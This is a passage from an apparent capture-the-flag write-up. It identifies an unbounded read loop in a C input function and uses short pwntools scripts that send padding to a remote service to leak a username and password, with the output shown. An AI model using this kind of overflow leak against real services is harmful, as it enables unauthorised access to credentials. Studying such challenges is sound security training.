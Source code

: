```c
	}

	return 1;
```

This logic seems fine, so let's look at the `input` function:
 
``` c
void input(char *buf){
    int recv;
    int i = 0;
    while(1){
        recv = (int)read(STDIN_FILENO,&buf[i],1);
        if(recv == -1){
            puts("ERROR!");
            exit(-1);
        }
        if(buf[i] == '\n'){
            return;
        }
        i++;
    }
}
```

Ha ha! There's our overflow. The function will only stop reading when we encounter a `'\n'`.  
I used this to leak the username and password.

``` python
s = remote(HOST, PORT)

s.sendline("2")
s.sendline("A" * 31)
s.sendline("")
s.interactive()

```
```
username : Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
3XPL01717
```
```python
s = remote(HOST, PORT)

s.sendline("2")
s.sendline("A" * 63)
s.sendline("")

s.interactive()
```
```
username : Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
_H4CK3R_
```
So, we have `username = "_H4CK3R_"` and `password = "3XPL01717"`
